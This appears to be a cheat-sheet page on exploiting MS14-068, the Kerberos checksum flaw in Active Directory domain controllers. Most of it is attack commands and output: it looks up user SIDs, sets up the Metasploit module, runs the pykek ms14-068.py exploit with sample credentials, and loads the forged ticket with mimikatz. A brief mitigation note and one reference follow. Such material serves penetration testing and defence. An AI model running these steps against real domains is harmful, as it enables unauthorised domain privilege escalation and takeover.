 # MS14-068 Checksum Validation

This exploit require to know the user SID, you can use `rpcclient` to remotely get it or `wmi` if you have an access on the machine.

* RPCClient
  ```powershell
  rpcclient $> lookupnames john.smith
  john.smith S-1-5-21-2923581646-3335815371-2872905324-1107 (User: 1)
  ```
* WMI
  ```powershell
  wmic useraccount get name,sid
  Administrator  S-1-5-21-3415849876-833628785-5197346142-500   
  Guest          S-1-5-21-3415849876-833628785-5197346142-501   
  Administrator  S-1-5-21-297520375-2634728305-5197346142-500   
  Guest          S-1-5-21-297520375-2634728305-5197346142-501   
  krbtgt         S-1-5-21-297520375-2634728305-5197346142-502   
  lambda         S-1-5-21-297520375-2634728305-5197346142-1110 
  ```
* Powerview
  ```powershell
  Convert-NameToSid high-sec-corp.localkrbtgt
  S-1-5-21-2941561648-383941485-1389968811-502
  ```
* CrackMapExec: `crackmapexec ldap DC1.lab.local -u username -p password -k --get-sid`  

```bash
Doc: https://github.com/gentilkiwi/kekeo/wiki/ms14068
```

Generate a ticket with `metasploit` or `pykek`

```powershell
Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum
   Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    LABDOMAIN.LOCAL                                yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  P@ssw0rd                                       yes       The Domain User password
   RHOSTS    10.10.10.10                                    yes       The target address range or CIDR identifier
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      lambda                                         yes       The Domain User
   USER_SID  S-1-5-21-297520375-2634728305-5197346142-1106  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000
```

```powershell
# Alternative download: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek
$ git clone https://github.com/SecWiki/windows-kernel-exploits
$ python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
$ python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
$ python ./ms14-068.py -u john.smith@pwn3d.local -s S-1-5-21-2923581646-3335815371-2872905324-1107 -d 192.168.115.10
$ python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066
-1105
  [+] Building AS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending AS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving AS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing AS-REP from msfdc01.metasploitable.local... Done!
  [+] Building TGS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending TGS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Creating ccache file 'TGT_user01@metasploitable.local.ccache'... Done!
```

Then use `mimikatz` to load the ticket.

```powershell
mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
```


## Mitigations

* Ensure the DCPromo process includes a patch QA step before running DCPromo that checks for installation of KB3011780. The quick and easy way to perform this check is with PowerShell: get-hotfix 3011780


## References

* [Exploiting MS14-068 with PyKEK and Kali - 14 DEC 2014 - ZACH GRACE @ztgrace](https://zachgrace.com/posts/exploiting-ms14-068/)